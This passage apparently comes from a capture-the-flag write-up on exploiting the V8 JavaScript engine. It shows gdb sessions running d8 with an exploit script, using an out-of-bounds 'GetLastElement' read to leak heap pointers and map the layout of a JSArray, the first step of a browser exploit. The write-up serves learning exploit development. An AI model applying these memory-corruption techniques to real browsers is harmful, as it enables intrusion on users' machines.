 

    df@buntu:~/v8$ gdb -q out.gn/x64.release/d8
    GEF for linux ready, type `gef' to start, `gef config' to configure
    80 commands loaded for GDB 9.2 using Python engine 3.8
    Reading symbols from out.gn/x64.release/d8...
    (No debugging symbols found in out.gn/x64.release/d8)
    gef➤  run --allow-natives-syntax --shell exploit.js 
    Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax --shell exploit.js
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7f4f99173700 (LWP 35638)]
    V8 version 8.5.0 (candidate)
    d8> 



I'll create an array, `a` (`%DebugPrint` shows much less on the release
`d8`):



    d8> var a = [1.1, 2.2];
    undefined
    d8> %DebugPrint(a);
    0x2b4108086155 <JSArray[2]>
    [1.1, 2.2]



`GetLastElement` returns a float that doesn't mean much to me:



    d8> a.GetLastElement()
    4.73859563718219e-270



However, if I convert to back to an int (and then to hex, I recognize
the two 32-bit pointers):



    d8> ftoi(a.GetLastElement())
    577594250143996169n
    d8> ftoi(a.GetLastElement()).toString(16)
    "80406e908241909"



I can drop into `gdb` and look at the object, knowing it's third item is
the pointer to the elements array:



    gef➤  x/4xw 0x2b4108086155-1
    0x2b4108086154: 0x08241909      0x080406e9      0x0808613d      0x00000004



When I add the high 32-bits and subtract one, it shows the pointer to
the map, the size, the two floats (each two words), and then the next
two pointers which are the original map and properties, and what
returned from `GetLastElement`:
